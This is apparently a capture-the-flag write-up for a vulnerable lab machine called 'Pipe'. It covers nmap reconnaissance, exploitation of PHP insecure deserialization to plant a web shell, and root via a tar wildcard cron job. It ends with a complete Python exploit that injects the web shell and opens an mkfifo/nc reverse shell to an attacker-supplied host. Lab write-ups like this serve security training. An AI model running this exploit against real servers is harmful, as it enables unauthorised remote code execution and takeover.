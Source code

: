 # Pipe

## Nmap
````
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-30 19:58 WEST
Nmap scan report for 10.0.2.39
Host is up (0.00043s latency).

PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 16:48:50:89:e7:c9:1f:90:ff:15:d8:3e:ce:ea:53:8f (DSA)
|   2048 ca:f9:85:be:d7:36:47:51:4f:e6:27:84:72:eb:e8:18 (RSA)
|   256 d8:47:a0:87:84:b2:eb:f5:be:fc:1c:f1:c9:7f:e3:52 (ECDSA)
|_  256 7b:00:f7:dc:31:24:18:cf:e4:0a:ec:7a:32:d9:f6:a2 (ED25519)
80/tcp  open  http    Apache httpd
|_http-server-header: Apache
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=index.php
|_http-title: 401 Unauthorized
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          33320/tcp6  status
|   100024  1          51317/tcp   status
|   100024  1          53835/udp6  status
|_  100024  1          55588/udp   status
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.85 seconds
````

## Port 80

Basic auth...
![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/bf95838c-cec1-4306-b668-d7118deb204d)


Filebuster found the directory /image which had directory listing enabled and one file...

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/959aeb2f-5759-4e16-a49b-778f8a0fc093)

Some background from wikipedia

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/c17fa88f-a08c-4b05-9d2d-e59cc965ac46)

Strings and exiftool don't show anything interesting

I honestly didn't think this would work, but calling /index.php with POST or DEBUG results in a 200 OK!

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/e7deb98a-b956-4445-9463-bfc2308d1631)


This is the result

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/9d8d2298-982c-4f47-9965-c52052ea834c)

Pressing the artist info link...

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/b6293971-3012-45e2-92c2-915da6477c35)

That parameter is a PHP object. Insecure deserialization?

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/b1016b79-9af2-42bc-b628-75a4b059feee)


![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/0be81a58-3bfa-4d9b-856b-a67145d671ee)


Another clue! Let's look into the scriptz directory

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/d5f85df6-1212-4138-b941-43cf4266379b)


![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/b9fb9a67-e9f0-493f-9229-c419a11ae033)

The log file...

````
<?php
class Log
{
    public $filename = '';
    public $data = '';

    public function __construct()
    {
        $this->filename = '';
	$this->data = '';
    }

    public function PrintLog()
    {
        $pre = "[LOG]";
	$now = date('Y-m-d H:i:s');

        $str = '$pre - $now - $this->data';
        eval("\$str = \"$str\";");
        echo $str;
    }

    public function __destruct()
    {
	file_put_contents($this->filename, $this->data, FILE_APPEND);
    }
}
?>
````

This file is being included, the goal here is to call an insecure deserialization with this class

I sent this url encoded in the 'param' POST parameter

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/23ab4bb8-d28f-419a-993c-ba73e2880690)

And tested it out... again, DEBUG method

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/cb72d91b-1b9a-48e6-97f1-445a630373a3)

This.

Is.

Awesome.


## Reverse Shell

Now to repeat the same thing but with a more dangerous payload

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/15411059-4054-48ae-a9bc-dd2895a4fbac)

I had to fight a lot with this, apparently it only worked inside the scriptz directory for some reason

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/7977dee8-2b5f-4f08-8718-b9c0279eaf6d)

Sending a POST request with the cmd parameter to 'id'

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/9c39c53d-78ee-4ee2-8bb9-e77ebf505265)

Time for mkfifo... and I'm in

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/b37ab874-8f53-437a-ab41-5cefdeaf7603)


## Privilege Escalation

We have these cronjobs

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/532bc963-70d6-497f-81ba-13b7b5f6e829)

compress.sh

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/259d6b8d-2e21-476d-a0eb-7708b078798b)


The old tar wildcard!

First you create these two files...

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/bb079b84-e0a0-4d8d-aec7-c0b98b16333e)


And then the actual payload goes in a shell.sh file

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/33694e57-8a1c-438c-8440-fa478ae13e7c)

We wait a few minutes and root

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/926186b9-1111-4759-b938-d3857f211095)

___

Another one click exploit for the web portion of the machine:
````
import sys, requests

def main():
	session = requests.Session()
	# Inject web shell at /var/www/html/scriptz/b.php via insecure deserialization
	url = server + "/index.php"
	data = 'O:3:"Log":2:{s:8:"filename";s:27:"/var/www/html/scriptz/b.php";s:4:"data";s:29:"<?php system($_GET[\'cmd\']);?>";}'

	r = session.post(url, data=("param="+data), headers={"Content-type": "application/x-www-form-urlencoded"})

	# Call a command via RCE
	url = server + "/scriptz/b.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%20{}%20{}%20%3E%2Ftmp%2Ff".format(attacker, port)
	r = session.get(url)

if __name__ == '__main__':
	try:
		server = sys.argv[1].strip()
		attacker = sys.argv[2].strip()
		port = sys.argv[3].strip()
	except:
		print("[-] Usage: %s serverIP:port attackerIP port" % sys.argv[0])
		sys.exit()
	print("Don't forget to open the listener on port {}!".format(port))
	main()
````

